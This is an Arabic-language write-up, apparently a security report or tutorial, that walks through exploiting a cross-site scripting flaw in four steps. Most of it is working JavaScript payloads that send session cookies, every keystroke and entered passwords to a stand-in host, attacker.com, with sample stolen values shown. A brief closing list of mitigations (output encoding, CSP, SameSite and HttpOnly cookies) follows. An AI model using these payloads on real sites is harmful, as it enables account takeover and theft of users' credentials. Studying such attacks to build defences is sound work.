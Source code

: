 #### الخطوة 1: اختبار وجود الثغرة
```javascript
// الحمل: <script>alert('XSS')</script>
// النتيجة: ✅ تم تأكيد وجود الثغرة
```

#### الخطوة 2: سرقة الكوكيز
```javascript
// الحمل:
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie, true);
    xhr.send();
</script>

// النتيجة: 🍪 تم سرقة كوكيز المستخدم
// الكوكيز المسروقة: PHPSESSID=abc123def456; user=admin; auth=1
```

#### الخطوة 3: تسجيل المفاتيح (Keylogger)
```javascript
// الحمل:
<script>
    document.addEventListener('keydown', function(e) {
        fetch('http://attacker.com/keylog?key=' + e.key + '&url=' + window.location.href);
    });
</script>

// النتيجة: ⌨️ تم تسجيل جميع ضغطات المفاتيح
```

#### الخطوة 4: سرقة بيانات تسجيل الدخول
```javascript
// الحمل:
<script>
    document.querySelectorAll('input[type="password"]').forEach(function(input) {
        input.addEventListener('blur', function() {
            fetch('http://attacker.com/creds?password=' + input.value);
        });
    });
</script>

// النتيجة: 🔑 تم سرقة كلمة المرور
// كلمة المرور المسروقة: MySecretPassword123!
```

### 💥 التأثير
- ✅ سرقة كوكيز الجلسة
- ✅ تسجيل جميع ضغطات المفاتيح
- ✅ سرقة بيانات تسجيل الدخول
- ✅ الاستيلاء الكامل على حساب المستخدم

### 🔧 الحلول الأمنية
1. ترميع جميع البيانات المدخلة والمعروضة
2. استخدام Content Security Policy (CSP)
3. تنفيذ SameSite Cookie Attribute
4. استخدام HTTPOnly للكوكيز الحساسة

---